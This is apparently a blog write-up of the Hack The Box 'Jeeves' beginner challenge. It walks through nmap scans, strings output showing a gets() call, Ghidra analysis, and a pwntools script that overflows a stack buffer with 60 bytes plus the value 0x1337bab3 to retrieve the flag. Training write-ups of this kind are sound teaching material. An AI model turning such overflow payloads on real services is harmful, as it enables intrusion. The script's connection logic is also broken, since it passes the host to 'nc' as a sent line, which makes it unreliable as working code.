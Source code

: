```yaml
---
layout: post
title:  "Jeeves-hackthebox:intro to binary exploitation"
image: ''
date:   2021-11-06 00:06:31
tags:
- hackthebox
- binary_exploitation
description: ''
categories:
- hackthebox 
---
```



# Given

```
host
165.227.225.205:31382

challenge description
How are you doing, sir?

some binary file
jeevs
```
I started by scanning the host
```
 nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p- 
```


# analysing jeevs file 

file type
```
./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

strings out ->
```
➜  Desktop strings jeeves
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
printf
read
malloc
close
open
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8055
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
src.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
printf@@GLIBC_2.2.5
close@@GLIBC_2.2.5
read@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
gets@@GLIBC_2.2.5
__libc_csu_init
malloc@@GLIBC_2.2.5
__bss_start
main
open@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment

```

# jeeves data flow
``
jeeves run --> asks for name --> hello $name exits
``

# nmap output

```


Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
Nmap scan report for 165.227.225.205
Host is up (0.17s latency).
Not shown: 65499 filtered ports, 35 closed ports
PORT      STATE SERVICE
31251/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds


```


one port open

analysing port:
```
 nmap -Pn -sC -sV 165.227.225.205 -p31251

```

output

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
Nmap scan report for 165.227.225.205
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Employee File Manager

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds

```


Looking into jeeves page on port 31251
![](https://i.imgur.com/qHSg99V.png)



seems same binary is deployed there
lets try connectingto it with `nc`
![](https://i.imgur.com/tNgoUQK.png)



# further analysing binary with ghidra

we realise we need 60 x a to reach the var we want

![](https://i.imgur.com/TtA2Muk.png)

so I used pwn tools witn nc

```
from pwn import *

target = process("nc")
target.sendline("209.97.187.130 32259")

payload = "A"*60
payload += p64(0x1337bab3)

target.sendline(payload)
print (target.recvuntil("}"))
```

and we get the flag
![](https://i.imgur.com/t2zqVDZ.png)



```
flag
 HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}

```
#easy
#binary


